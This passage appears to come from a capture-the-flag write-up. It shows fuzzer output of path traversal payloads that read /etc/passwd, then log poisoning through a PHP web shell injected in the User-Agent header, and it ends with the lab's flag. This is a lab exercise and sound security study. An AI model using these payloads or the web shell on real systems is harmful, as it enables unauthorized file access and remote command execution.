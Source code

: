 ```
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 325ms]
../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 323ms]
../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 328ms]
../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 338ms]
../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 370ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 413ms]
../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 419ms]
../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 418ms]
../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 418ms]
../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 417ms]
../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 433ms]
../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 162ms]
../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 462ms]
../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 504ms]
../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 550ms]
../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 603ms]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 831ms]
```

We can test any of this payloads, let's try:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250218224640.png)

And it indeed works, now, next step we need to do is log poisoning, we need to change the `User-Agent` to this:

```php
<?php system($_GET["cmd"]); ?>
```

Now, let's send the request like this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250218225147.png)

As seen, it gets logged, in this case, we can see the current directory, let's list the root folder:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250218225233.png)

Found our flag, let's read it now:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250218225409.png)

Our flag is:

```
a9a892dbc9faf9a014f58e007721835e
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250218225450.png)

